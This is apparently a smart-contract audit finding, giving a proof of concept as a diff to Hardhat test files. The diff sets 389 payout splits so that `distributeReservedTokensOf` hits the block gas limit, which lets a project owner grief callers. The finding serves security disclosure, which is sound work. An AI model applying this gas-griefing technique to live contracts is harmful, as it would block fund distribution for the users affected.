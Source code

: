 ### Proof of Concept

The key behaviour we need to prove is that it's possible to set more splits before hitting the block gas limit than it is to distribute reward tokens over the same number of splits. If this is true, the project owner will be able to set a number of splits that will always make the `distributeReservedTokensOf` hit the block gas limit, and hence grief the caller.

This can be demonstrated by modifying the existing test cases. From some basic testing I have found that calling `distributeReservedTokensOf` hits the block gas limit when there are at least 389 splits, but for the same split count the project owner can successfully call `set` without hitting the block gas limit.

    diff --git a/test/jb_controller/distribute_reserved_token_of.test.js b/test/jb_controller/distribute_reserved
    _token_of.test.js
    index 2f964d8..6cfd645 100644
    --- a/test/jb_controller/distribute_reserved_token_of.test.js
    +++ b/test/jb_controller/distribute_reserved_token_of.test.js
    @@ -119,10 +119,15 @@ describe('JBController::distributeReservedTokensOf(...)', function () {
         const { addrs, projectOwner, jbController, mockJbTokenStore, mockSplitsStore, timestamp } =
           await setup();
         const caller = addrs[0];
    -    const splitsBeneficiariesAddresses = [addrs[1], addrs[2]].map((signer) => signer.address);
    +    let addressList = [addrs[1], addrs[2]];
    +    for (let i = 1; i < 389; i++) {
    +      addressList.push(addrs[1]);
    +    }
    +
    +    const splitsBeneficiariesAddresses = addressList.map((signer) => signer.address);

         const splits = makeSplits({
    -      count: 2,
    +      count: 389,
           beneficiary: splitsBeneficiariesAddresses,
           preferClaimed: true,
         });
    diff --git a/test/jb_splits_store/set.test.js b/test/jb_splits_store/set.test.js
    index 3dd0331..5992957 100644
    --- a/test/jb_splits_store/set.test.js
    +++ b/test/jb_splits_store/set.test.js
    @@ -54,7 +54,7 @@ describe('JBSplitsStore::set(...)', function () {
         };
       }

    -  function makeSplits(beneficiaryAddress, count = 4) {
    +  function makeSplits(beneficiaryAddress, count = 389) {
         let splits = [];
         for (let i = 0; i < count; i++) {
           splits.push({

### Tools Used

VSCode & Hardhat
